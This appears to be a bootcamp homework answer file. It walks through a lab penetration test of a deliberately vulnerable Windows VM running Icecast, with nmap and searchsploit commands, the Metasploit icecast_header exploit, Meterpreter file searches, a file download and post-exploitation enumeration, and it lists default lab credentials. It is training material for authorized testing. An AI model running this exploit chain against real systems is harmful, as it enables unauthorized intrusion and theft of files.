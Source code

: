 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
      > ![](Images/nmap.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`
     > ![](Images/searchsploit_icecast.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
      > Answer: `msfconsole`
      >![](Images\msfconsole.png) 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use exploit/windows/http/icecast_header`
     > Answer: `use 0`
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `set RHOST 192.168.0.20`
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit
     > Answer: run
     > ![](Images/searchicecast.png)
  
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `dir *secretfile.txt* /s /p`
     > Found C:\Users\IEUser\Documents\user.secretfile.txt
     > ![](Images/secretfile.png)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `dir *recipe.txt* /s /p`
      > Found C:\Users\IEUser\Documents\Drinks.recipe.txt
      > ![](Images/find_recipe.png)
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: `download Users/IEUser/Documents/Drinks.recipe.txt`
      > ![](Images/download_recipes.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. 
   - Keep in mind that the listed suggestions may not include all available exploits.

    > Command: `run post/multi/recon/local_exploit_suggestor` 
    > Found 2 other possible exploits: 
    > `exploit/windows/local/ikeext_service`
    > `exploit/windows/local/ms16_075_reflection`

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: `run post/windows/gather/enum_logged_on_users`
  > ![](Image/enum_users.png)
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: 
  > `shell`
  > `systeminfo`
  > ![](Images/systeminfo.png)
 
C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`
   > ![](Images/sysinfo.png)

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
